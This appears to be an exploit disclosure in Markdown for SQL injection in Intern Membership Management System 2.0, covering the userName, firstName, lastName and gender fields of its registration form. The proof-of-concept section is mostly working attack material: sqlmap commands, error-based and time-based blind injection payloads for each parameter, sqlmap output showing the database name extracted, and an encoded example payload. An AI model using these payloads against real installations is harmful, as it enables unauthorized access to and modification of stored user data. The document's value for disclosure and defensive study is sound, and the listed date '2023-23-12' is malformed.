 # Intern_Membership_Management_System-SQL-Injection
+ **Exploit Title:** Intern_Membership_Management_System-SQL-Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Intern Membership Management System 2.0 allows SQL Injection via parameters 'userName', 'firstName', 'lastName', and 'gender' in "/intern/user_registration/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Fill the form and click 'Register' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'userName', 'firstName', 'lastName', and 'gender' parameters to dump the database. 
+ `python sqlmap.py -r r.txt -p userName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:08:01] [INFO] parsing HTTP request from 'r.txt'
[23:08:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test'||(SELECT 0x41516658 WHERE 5902=5902 AND (SELECT 6279 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(6279=6279,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test'||(SELECT 0x4b4f7742 WHERE 6652=6652 AND (SELECT 1818 FROM (SELECT(SLEEP(5)))EDSH))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:08:03] [INFO] testing MySQL
[23:08:03] [INFO] confirming MySQL
[23:08:03] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:08:03] [INFO] fetching current database
[23:08:03] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p firstName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:10:30] [INFO] parsing HTTP request from 'r.txt'
[23:10:32] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: firstName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test'||(SELECT 0x72666763 WHERE 6198=6198 AND (SELECT 3585 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(3585=3585,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test'||(SELECT 0x4c58726c WHERE 5649=5649 AND (SELECT 7272 FROM (SELECT(SLEEP(5)))edvW))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:10:32] [INFO] testing MySQL
[23:10:33] [INFO] confirming MySQL
[23:10:33] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:10:33] [INFO] fetching current database
[23:10:33] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p lastName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: lastName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x75425548 WHERE 3456=3456 AND (SELECT 4050 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(4050=4050,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x49745477 WHERE 1875=1875 AND (SELECT 8777 FROM (SELECT(SLEEP(5)))cVgI))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:13:41] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:13:41] [INFO] fetching current database
[23:13:41] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p gender --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: gender (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x73574b73 WHERE 9608=9608 AND (SELECT 9046 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(9046=9046,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x67657950 WHERE 3206=3206 AND (SELECT 2290 FROM (SELECT(SLEEP(5)))OKGZ))||'&terms=on&register-user=Register
---
[23:17:12] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:17:12] [INFO] fetching current database
[23:17:12] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ current database: `db_issm`
![1_sqlmap](https://github.com/h4md153v63n/CVEs/assets/5091265/ab492034-196a-4f84-b0d0-3fbbbc25ae87)

+ Example payload:
```
-1%27+and+6%3d3+or+1%3d1%2b(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)%2b%27
```
![1_burp](https://github.com/h4md153v63n/CVEs/assets/5091265/910b1684-ab8a-4da2-874f-ff75c38eb727)

